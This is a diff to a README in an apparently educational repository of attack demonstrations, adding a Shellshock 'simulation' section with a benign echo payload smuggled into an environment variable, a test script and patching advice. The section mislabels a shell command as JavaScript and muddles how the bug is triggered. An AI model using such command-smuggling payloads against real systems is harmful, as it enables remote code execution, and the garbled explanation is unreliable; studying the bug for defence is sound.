

Before and after one commit to SANTHOSH17-DOT/attack-vectors-suite, a Markdown page: SHELL SHOCK/README.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
update shellshock with simulation of attack

````diff
--- a/SHELL SHOCK/README.md
+++ b/SHELL SHOCK/README.md
@@ -82,7 +82,40 @@ To prevent Shellshock exploitation:
 
 * * *
 
-### 🟡 Conclusion:
+### 🟡 Simulation of Attack :
+
+To simulate the shellshock vulnerability, follow these steps:
+
+1. Set up the environment: Start a terminal or shell session in a system with a vulnerable version of Bash (1.0.3-4.3).
+
+2. Create a script file, let's say test.sh, with the following contents:
+
+```bash
+#!/bin/bash
+echo "This is a test script"
+```
+3. Set the environment variable in js: Set an environment variable named "MALICIOUS_VAR" with a value that includes a Bash command, for example:
+
+ ```javascript
+export MALICIOUS_VAR='() { :; };echo "Shellshock vulnerability exploited!"'
+  ```
+4. Modify the script to use the environment variable: Edit the test.sh file to include the following line:
+
+```bash
+echo "The value of MALICIOUS_VAR is $MALICIOUS_VAR"
+```
+5. Run the modified script: Execute the modified script by running the following command:
+
+```bash
+./test.sh
+```
+
+If the shellshock vulnerability is present and the test.sh script does not properly sanitize environment variables before processing them with Bash, the Bash command included in the MALICIOUS_VAR environment variable will be executed. In this case, the message "Shellshock vulnerability exploited!" will be printed to the console.
+
+To protect against the shellshock vulnerability, it is recommended to update to a non-vulnerable version of Bash and to properly sanitize environment variables before processing them in scripts or programs.
+
+***
+### 🟡 Conclusion :
 
 Organizations must employ a vulnerability management framework to detect, assess, and protect against Shellshock and future vulnerabilities. This framework should quickly identify vulnerabilities, determine their severity, and take necessary action. Effective vulnerability management is a key process in ensuring cyber security. A mature organization should treat the resolution of critical vulnerabilities, such as Shellshock, with the same urgency as a serious security incident.
 
````
Also changed, not shown: other parts of SHELL SHOCK/README.md (+4 -4 lines).
